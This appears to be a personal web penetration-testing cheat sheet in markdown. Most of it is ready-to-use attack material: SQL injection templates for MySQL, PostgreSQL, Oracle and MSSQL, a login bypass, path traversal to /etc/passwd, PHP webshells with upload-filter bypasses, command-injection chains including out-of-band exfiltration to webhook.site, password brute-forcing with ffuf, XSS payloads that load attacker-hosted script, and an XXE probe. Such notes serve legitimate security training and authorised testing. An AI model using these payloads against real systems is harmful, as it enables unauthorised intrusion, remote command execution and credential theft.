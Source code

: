 
- Identify Vulnerabilities: `whatweb <target>`
- #SQL Injection:
    - Basic Login Bypass
	    - `' AND 1=1#`
	    - `' OR 1=1 --`
	    - `1' or 1=1#`
	    - `1' or 1=1-- -`
	- UNION SELECT
		- `' UNION SELECT null,null FROM users-- -`
	- Detect SQL Vulnerabilities:
```SQL
{payload}--
{payload};--
{payload}#
'||{payload}--
'||{payload}#
"{payload}--
"{payload}#
' AND {payload}--
' OR {payload}--
' AND EXISTS({payload})--
' OR EXISTS({payload})--
```
#MySQL:
```MySQL
' UNION ALL SELECT {payload}--
' UNION SELECT {payload}--
' OR (SELECT {payload}) IS NOT NULL--
' OR (SELECT {payload}) IS NULL--
'||{payload}--
"||{payload}--
'||(SELECT {payload})--
"||(SELECT {payload})--
```
#PostgreSQL :
```PostgreSQL
' UNION ALL SELECT {payload}--
' UNION SELECT {payload}--
' OR (SELECT {payload}) IS NOT NULL--
' OR (SELECT {payload}) IS NULL--
```
#Oracle:
```SQL
' UNION ALL SELECT {payload} FROM dual--
' UNION SELECT {payload} FROM dual--
' OR (SELECT {payload} FROM dual) IS NOT NULL--
' OR (SELECT {payload} FROM dual) IS NULL--
'||({payload})--
'||{payload}||'--
"||{payload}||"--
'||(SELECT {payload} FROM dual)--
```
#MSSQL:
```SQL
' UNION ALL SELECT {payload}--
' UNION SELECT {payload}--
' OR (SELECT {payload}) IS NOT NULL--
' OR (SELECT {payload}) IS NULL--
'+{payload}+
"+{payload}+
'+'+(SELECT {payload})+
"+"+(SELECT {payload})+
```
Other Payloads:
```SQL
OR {payload}=1
AND {payload}=1
AND IF({payload}, SLEEP(5), 1)
AND CASE WHEN {payload} THEN sleep(5) ELSE NULL END
AND {payload}
AND NOT {payload}
AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT('Error:',{payload},0x3a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```
- Blind SQL example:
```c
' AND SUBSTR((SELECT version()),1,1)='7'#
CAST((SELECT example_column FROM example_table) AS int)
```
- #LFI / #RFI:
    - `curl http://<target>/page.php?file=../../../../etc/passwd`
    - `php://filter/convert.base64-encode/resource=index.php`
- #FileUpload :
    - Rename extensions, bypass MIME-type checks
    - Upload [webshells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) / [revshells](https://www.revshells.com/): `<?php echo shell_exec($_GET['cmd']); ?>`
    - Using Burpsuite repeater:
	    - Upload:`<?php system($_GET['cmd']); ?>
	    - Magic Byte Upload:`<> PNG           IHYskad783 <?php system($_GET['cmd']); ?>`
	    - URL:`http://<ip>/uploads/cmd.php?cmd=whoami`
```
# Bypass extension filters
# Note: req server misconfig to execute or the ability to rename once it's up
shell.php.jpg

# Null byte injection
shell.php%00.jpg

# Blocklist bypass
shell.php5
shell.phtml

# Magic Bytes
head logo.png
<> PNG

```
 - Valid #php file extensions:

| Type       | Extension                                  |     |
| ---------- | ------------------------------------------ | --- |
| php        | phtml, .php, .php3, .php4, .php5, and .inc |     |
| asp        | asp, .aspx                                 |     |
| perl       | .pl, .pm, .cgi, .lib                       |     |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |     |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |     |
- #CommandInjection :
	- Basic command chaining `; ls -la`
	- Using logic operators `&& ls -la`
	- Commenting out the rest of a command `; ls -la #`
	- Using a pipe for command chaining `| ls -la`
	- Testing for blind injection 
		- `; sleep 10`
		- `; ping -c 10 127.0.0.1`
		- `& whoami > /var/www/html/whoami.txt &`
	- Out-of-band testing `& nslookup webhook.site/<id>?`whoami` &`
- #CMS Exploitation:
    - Exploit misconfigured plugins (e.g., WordPress, Joomla)
    - `wpscan --url <target> --enumerate p`
- #ffuf Bruteforce logins and passwords:
	- Save `POST` request from Burpsuite to .txt
	- change password value to `FUZZ` (for logins, passwords, or both)
		- `ffuf -request req.txt -request-proto http -w /usr/share/seclist/SecLists-Master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`
		- `ffuf -request request.txt -request-proto http -mode clusterbomb -w /path/to/users/file.txt:USERFUZZ -w /path/to/password/file.txt:PASSFUZZ -mc 200`
- #Burpesuite BruteForce:
	- Burpsuite > Send to Intruder > Sniper, add payload marker to password, Payload settings load `/usr/share/seclists/SecListsMaster/Passwords/` >Start Attack
	- Look for length changes in results
- #IDOR / #BOLA (insecure object reference):
	- `https://website.com/Tafel.php?id=FUZZ`
	- Can FUZZ validate object references:
		- Create list of numbers 1-100
			- `python3 -c 'for i in range (1,101): print(i)' > ids.txt`
		- Use ffuf to FUZZ the valid ids
			- `ffuf -u 'http://website.com/Tafel.php?id=FUZZ' -w ids.txt | grep FUZZ`
				- Can use `-fs 849` for whatever file size you want to filter out of the results.
- #XSS:
	- Reflected/Stored #XSS payloads:
		- `alert(1)` - popular XSS attack, pops a window in browser
			- may need to test with `print` and `prompt` as `alert` may be filtered out
		- `print()
		- `prompt("hello")`
		- `<script>prompt(1)</script>`
		- `<script>alert(1)</script>`

	- [DOM XSS payloads](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss):
		- `<script>prompt(1)</script>`
		- `<img src=x onerror="prompt(1)">`
		- `<img src=x onerror="window.location.href='https://google.com'">`
		- `<script>alert(document.cookie)</script>`
	- Stored #XSS payloads:
		- `<script>prompt(1)</script>)`
		- `<script>alert(document.cookie)</script>`

	- `<script src="http://<our-ip>/script.js"></script>`
- #XXE :
	- Detect & [exploit](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/XML.txt)
```c
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe "test"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

